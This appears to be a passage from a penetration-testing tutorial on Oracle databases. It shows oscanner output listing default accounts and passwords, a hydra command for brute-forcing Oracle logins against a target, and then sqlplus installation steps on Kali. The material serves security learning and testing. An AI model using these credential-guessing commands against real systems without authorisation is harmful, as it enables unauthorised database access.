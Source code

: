 Or we can use automated tools to help us out:

## Oscanner
```
$ sudo oscanner -s 192.168.1.18   -P 8888
[sudo] password for cyborg: 
Oracle Scanner 1.0.6 by patrik@cqure.net
--------------------------------------------------
[-] Checking host 192.168.1.18
[x] Failed to enumerate sids from host
[-] Loading services/sids from service file
[+] Checking sid (ORCL) for common passwords
[-] Account DBSNMP/DBSNMP found
[-] Account CTXSYS/CTXSYS found
[-] Account SYSTEM/MANAGER found
```
## Hydra & Oracle SQL-Login
```
./hydra -L <File of usernames> -P <File of Passwords> -s 1521 (target default port) <target> /<database name/SID>
```
Example:
```
./hydra -L /tmp/user.txt -P /tmp/pass.txt -s 1521 host.victim oracle /PLSEXTPROC
```
Assuming that on each stage we are successful, we should have a Listener, SID and valid account. Next we log into the database….

## Installing and Using SQLPLUS
We will quickly walk through the installation of Oracle and sqlplus on Debian/Ubuntu based systems:

## The Install
As root, create the directory /opt/oracle. Then download the Oracle Instant Client packages for your version of Kali Linux. The packages you will need are:
* instantclient-basic-linux-12.1.0.1.0.zip
* instantclient-sqlplus-linux-12.1.0.1.0.zip
* instantclient-sdk-linux-12.1.0.1.0.zip
Unzip these under /opt/oracle, and you should now have a path called /opt/oracle/instantclient_12_1/. Next symlink the shared library that we need to access the library from oracle:
```
# ln libclntsh.so.12.1 libclntsh.so
# ls -lh libclntsh.so
lrwxrwxrwx 1 root root 17 Jun  1 15:41 libclntsh.so -> libclntsh.so.12.1
# ldconfig
```
You also need to configure the appropriate environment variables, add the following to either
```
~/.bashrc
/etc/profile
export PATH=$PATH:/opt/oracle/instantclient_12_1
export SQLPATH=/opt/oracle/instantclient_12_1
export TNS_ADMIN=/opt/oracle/instantclient_12_1
export LD_LIBRARY_PATH=/opt/oracle/instantclient_12_1
export ORACLE_HOME=/opt/oracle/instantclient_12_1
```
Add Oracle libraries to ldconfig:
```
echo "/opt/oracle/instantclient_12_1/" >> /etc/ld.so.conf.d/99_oracle
```
If you have succeeded, you should be able to run sqlplus from a command prompt (you may need to log out and log back in again):
```
# sqlplus
```
